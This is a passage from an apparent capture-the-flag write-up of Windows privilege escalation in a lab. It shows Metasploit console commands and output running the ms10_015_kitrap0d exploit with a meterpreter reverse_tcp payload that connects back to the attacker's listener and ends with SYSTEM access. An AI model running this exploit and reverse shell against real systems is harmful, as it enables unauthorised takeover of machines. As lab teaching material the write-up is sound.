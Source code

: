 ```bash
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

As we can see we have many vulnerabilities to test. I'm going to try ms10_015_kitrap0d because it looks interesting.

We have a module in metasploit for that vulnerability let's use it.

```bash
msf6 post(multi/recon/local_exploit_suggester) > search ms10_015_kitrap0d

Matching Modules
================

   #  Name                                     Disclosure Date  Rank   Check  Description
   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D

Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms10_015_kitrap0d
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.5       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)

msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 4
session => 4
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Launching notepad to host the exploit...
[+] Process 652 launched.
[*] Reflectively injecting the exploit DLL into 652...
[*] Injecting exploit into 652 ...
[*] Exploit injected. Injecting payload into 652...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 5 opened (10.10.14.5:4444 -> 10.10.10.5:49165) at 2021-02-21 14:11:35 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
